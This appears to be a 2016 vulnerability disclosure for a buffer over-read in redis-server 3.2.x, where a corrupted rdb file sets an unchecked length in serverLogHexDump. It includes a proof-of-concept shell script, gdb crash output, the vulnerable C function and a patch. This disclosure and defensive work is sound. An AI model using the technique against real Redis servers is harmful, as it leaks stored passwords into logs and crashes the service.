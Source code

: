 #Buffer Over Read in redis-server 3.2.0 and Later

#Introduction

The redis-server dose not properly handle a corrupted rdb database file when loads it. The function serverLogHexDump(int level, char *descr, void *value, size_t len) does not check the validity of the last parameter `len`, which can be assigned from a rdb file. A very large value, such as 0xffffffff, will trigger a buffer over read, as demonstrated by exposing sensitive information, such as password. Also, the program will receive the SIGSEGV signal, if it accesses an invalid memory address. The vulnerability can also be used for the deny of service attack.

#Proof of Concept
I have reproduced this vulnerability with redis-server 3.2.3 in a Debian system and the newest [source code](https://github.com/antirez/redis) of redis in github.com. The program will crash and the password will be dumped in the log file.

The source code of poc.sh is followed and the rdb file is located at ./poc/buffer_over_read.rdb:

```
# Date: Sept 06, 2016
# Vulnerability type: CWE-126: Buffer Over Read
# Description: The last parameter named len in serverLogHexDump() can be controlled by a corrupted rdb database file. A very large value will trigger a buffer over read, resulting sensitive information on the stack exposed.
# Affected Version: >=redis 3.2.0
# Debian version: stretch and sid

Redis_Path=`which redis-server`
PASS_WORD='AAAA__PASSWORD__PASSWORD__AAAA'
HEX_PASS='414141415f5f50415353574f52445f5f50415353574f52445f5f41414141'
DB_FILE='buffer_over_read.rdb'
LOG_FILE='error.log'
echo "Redis Version:"
$Redis_Path --version

#sets a password and loads a rdb file
$Redis_Path --requirepass $PASS_WORD --port 54321 --dbfilename $DB_FILE > $LOG_FILE 
#search password
echo "The password $PASS_WORD will be found in the $LOG_FILE with hex format: $HEX_PASS"
#cat $LOG_FILE | grep -n $HEX_PASS
```
A core dump will be generated after the poc.sh is executed. The backtrace of the process is followed for debugging:

```
Program received signal SIGSEGV, Segmentation fault.
serverLogHexDump (level=level@entry=3, descr=descr@entry=0x4ef6c0 "ziplist with dup elements dump", value=<optimized out>, len=2019155864) at debug.c:1059
1059            b[0] = charset[(*v)>>4];
(gdb) x/i $pc
=> 0x4638c0 <serverLogHexDump+112>:     movzbl 0x0(%rbp),%edx
(gdb) p/x $rbp
$1 = 0x7ffff6c00000
(gdb) bt
#0  serverLogHexDump (level=level@entry=3, descr=descr@entry=0x4ef6c0 "ziplist with dup elements dump", value=<optimized out>, len=2019155864) at debug.c:1059
#1  0x00000000004545fa in hashTypeConvertZiplist (o=0x7ffff6a6e4b0, enc=<optimized out>) at t_hash.c:486
#2  0x00000000004546b5 in hashTypeConvert (o=o@entry=0x7ffff6a6e4b0, enc=enc@entry=2) at t_hash.c:502
#3  0x0000000000446256 in rdbLoadObject (rdbtype=rdbtype@entry=13, rdb=rdb@entry=0x7fffffffe3f0) at rdb.c:1296
#4  0x0000000000446e57 in rdbLoad (filename=<optimized out>) at rdb.c:1490
#5  0x000000000042d854 in loadDataFromDisk () at server.c:3378
#6  0x00000000004218e6 in main (argc=3, argv=0x7fffffffea08) at server.c:3656
(gdb)
```


And the memory layout of the process is followed for your reference:

```
(gdb) info proc mappings
process 2778
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x52e000   0x12e000        0x0 /usr/local/bin/redis-server
            0x72d000           0x72e000     0x1000   0x12d000 /usr/local/bin/redis-server
            0x72e000           0x733000     0x5000   0x12e000 /usr/local/bin/redis-server
            0x733000           0x76b000    0x38000        0x0 [heap]
      0x7ffff51fd000     0x7ffff51fe000     0x1000        0x0
      0x7ffff51fe000     0x7ffff59fe000   0x800000        0x0 [stack:2792]
      0x7ffff59fe000     0x7ffff59ff000     0x1000        0x0
      0x7ffff59ff000     0x7ffff61ff000   0x800000        0x0 [stack:2791]
      0x7ffff61ff000     0x7ffff6200000     0x1000        0x0
      0x7ffff6200000     0x7ffff6c00000   0xa00000        0x0 [stack:2790]
      0x7ffff6d37000     0x7ffff7000000   0x2c9000        0x0 /usr/lib/locale/locale-archive
      0x7ffff7000000     0x7ffff7200000   0x200000        0x0
      0x7ffff72ed000     0x7ffff74a8000   0x1bb000        0x0 /lib/x86_64-linux-gnu/libc-2.19.so
      0x7ffff74a8000     0x7ffff76a7000   0x1ff000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.19.so
      0x7ffff76a7000     0x7ffff76ab000     0x4000   0x1ba000 /lib/x86_64-linux-gnu/libc-2.19.so
      0x7ffff76ab000     0x7ffff76ad000     0x2000   0x1be000 /lib/x86_64-linux-gnu/libc-2.19.so
      0x7ffff76ad000     0x7ffff76b2000     0x5000        0x0
      0x7ffff76b2000     0x7ffff76cb000    0x19000        0x0 /lib/x86_64-linux-gnu/libpthread-2.19.so
      0x7ffff76cb000     0x7ffff78ca000   0x1ff000    0x19000 /lib/x86_64-linux-gnu/libpthread-2.19.so
      0x7ffff78ca000     0x7ffff78cb000     0x1000    0x18000 /lib/x86_64-linux-gnu/libpthread-2.19.so
      0x7ffff78cb000     0x7ffff78cc000     0x1000    0x19000 /lib/x86_64-linux-gnu/libpthread-2.19.so
      0x7ffff78cc000     0x7ffff78d0000     0x4000        0x0
      0x7ffff78d0000     0x7ffff78d3000     0x3000        0x0 /lib/x86_64-linux-gnu/libdl-2.19.so
      0x7ffff78d3000     0x7ffff7ad2000   0x1ff000     0x3000 /lib/x86_64-linux-gnu/libdl-2.19.so
      0x7ffff7ad2000     0x7ffff7ad3000     0x1000     0x2000 /lib/x86_64-linux-gnu/libdl-2.19.so
      0x7ffff7ad3000     0x7ffff7ad4000     0x1000     0x3000 /lib/x86_64-linux-gnu/libdl-2.19.so
      0x7ffff7ad4000     0x7ffff7bd9000   0x105000        0x0 /lib/x86_64-linux-gnu/libm-2.19.so
      0x7ffff7bd9000     0x7ffff7dd8000   0x1ff000   0x105000 /lib/x86_64-linux-gnu/libm-2.19.so
      0x7ffff7dd8000     0x7ffff7dd9000     0x1000   0x104000 /lib/x86_64-linux-gnu/libm-2.19.so
      0x7ffff7dd9000     0x7ffff7dda000     0x1000   0x105000 /lib/x86_64-linux-gnu/libm-2.19.so
      0x7ffff7dda000     0x7ffff7dfd000    0x23000        0x0 /lib/x86_64-linux-gnu/ld-2.19.so
      0x7ffff7fd8000     0x7ffff7fdc000     0x4000        0x0
      0x7ffff7ff6000     0x7ffff7ffa000     0x4000        0x0
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x22000 /lib/x86_64-linux-gnu/ld-2.19.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x23000 /lib/x86_64-linux-gnu/ld-2.19.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

Based on the above gdb information, I think the reason of the crash is that the last instruction was trying to read memory at address 0x7ffff6c00000, which was out of the stack range (0x7ffff6200000 to 0x7ffff6c00000) and was invalid for reading.

After analysing the following source code of the vulnerable function, I found the register `$rbp` in the last instruction `movzbl 0x0(%rbp),%edx` represents the pointer `v` in the following c source code. This function dose not check the validity of the pointer `v`. The pointer `v` will increase until it reaches a invalid address during the the every time of the loop. More seriously, the function serverLogRaw() will dump all the content of the stack when the pointer `v` increases. The vulnerable function will lead the password on the stack to be dumped into the log file.

```
// src/debug.c:1051
void serverLogHexDump(int level, char *descr, void *value, size_t len) {
    char buf[65], *b;
    unsigned char *v = value;
    char charset[] = "0123456789abcdef";

    serverLog(level,"%s (hexdump):", descr);
    b = buf;
    while(len) {
        b[0] = charset[(*v)>>4];
        b[1] = charset[(*v)&0xf];
        b[2] = '\0';
        b += 2;
        len--;
        v++;
        if (b-buf == 64 || len == 0) {
            serverLogRaw(level|LL_RAW,buf);
            b = buf;
        }
    }
    serverLogRaw(level|LL_RAW,"\n");
}
```

#Countermeasure

I prefer to remove the calling of the vulnerable function `serverLogHexDump()`. Because the parameter `len` is controlled by the db file and it is difficult to detect whether the length of the data is as same as the value of `len`.

The patch is followed:

```
diff --git a/src/t_hash.c b/src/t_hash.c
index a495593..3ae0d46 100644
--- a/src/t_hash.c
+++ b/src/t_hash.c
@@ -483,8 +483,6 @@ void hashTypeConvertZiplist(robj *o, int enc) {
             value = hashTypeCurrentObjectNewSds(hi,OBJ_HASH_VALUE);
             ret = dictAdd(dict, key, value);
             if (ret != DICT_OK) {
-                serverLogHexDump(LL_WARNING,"ziplist with dup elements dump",
-                    o->ptr,ziplistBlobLen(o->ptr));
                 serverPanic("Ziplist corruption detected");
             }
         }

```

#Conclusion

A buffer over read vulnerability is found in redis-server 3.2.0 and later. The report shows the proof of concept and vulnerability analysis. Finally, a patch is attached in the end.